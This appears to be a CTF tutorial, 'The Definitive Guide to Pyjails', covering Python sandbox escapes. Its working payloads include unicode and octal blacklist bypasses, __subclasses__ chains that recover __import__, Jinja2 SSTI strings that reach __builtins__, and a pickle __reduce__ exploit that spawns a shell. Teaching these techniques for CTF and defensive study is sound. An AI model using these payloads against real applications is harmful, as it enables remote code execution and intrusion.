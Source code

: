 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists can be easily bypassed.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `os.popen().read()`, `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `exit()`, `quit()`: essentially `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???
Some pyjails may (attempt to) remove `__builtins__` entirely as shown below.  

```python
eval(code, {"__builtins__": None})
```

Luckily, we can still bypass this! 

```python
().__class__.__base__.__subclasses__()
```

This essentially accesses all subclasses that inherit from the `object` class (ie. EVERY class defined in Python!)

From here, we can access previously restricted functions through some helpful classes.

Here, we access the `warnings` base class from the `catch_warnings` subclass, from which we can then call the `__import__` function.  
```python
[c for c in ().__class__.__base__.__subclasses__() if "catch" in c.__name__][0]()._module.__builtins__["__import__"]
```

We can even directly read variables by overwriting the `sys` module's exception handler to output all global variables.  

```python
(s:=[c for c in ().__class__.__base__.__subclasses__() if 'wrap_close' in c.__name__][0].__init__.__globals__['sys'], s.__setattr__('excepthook', lambda *a: s.stdout.write(a[2].tb_frame.f_globals.__str__())), a)
```

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Octal encoding
- bypass blacklists within your strings!
- eg: `'\146\154\141\147.txt'` -> `'flag.txt'`

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

In some Web challenges, you might see a vulnerability like this.  

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "POST":
        return render_template_string(f"Hello {request.form['name']}!")
    else:
        return '''
            <form method="POST">
                Name: <input type="text" name="name">
                <input type="submit" value="Greet">
            </form>
        '''
```

The vulnerability lies in the way the webpage is rendered when the POST request is received. The `f-string` can be abused to retrieve `__builtins__` through Jinja2 introspection.  

```python
{{ self.__init__.__globals__.__builtins__ }}
```

Jinja2 also has a special variable `request`, which refers to the current request being processed and can also be abused to access `__builtins__`

```python
{{ request.application.__globals__.__builtins__ }}
```

An obfuscated way of achieving the above would be using Jinja2's `|` operator, which allows us to pipe the results of filters.  

This is particularly useful if characters like `.` are blacklisted.  

```python
{{ self | attr('__init__') | attr('__globals__') | attr('__getitem__')('__builtins__') }}
```

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```

### Pickle RCE blacklist??? 😱😱😱
Once a blacklist is introduced, things won't be as straightforward.  
Luckily, we can use [Pickora](https://github.com/splitline/Pickora) to convert our obfuscated Python code to Pickle bytecode.  

Read [this article](https://github.com/maurosoria/dirsearch/issues/1073) for more info.  

---

## Additional resources
[very cool cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)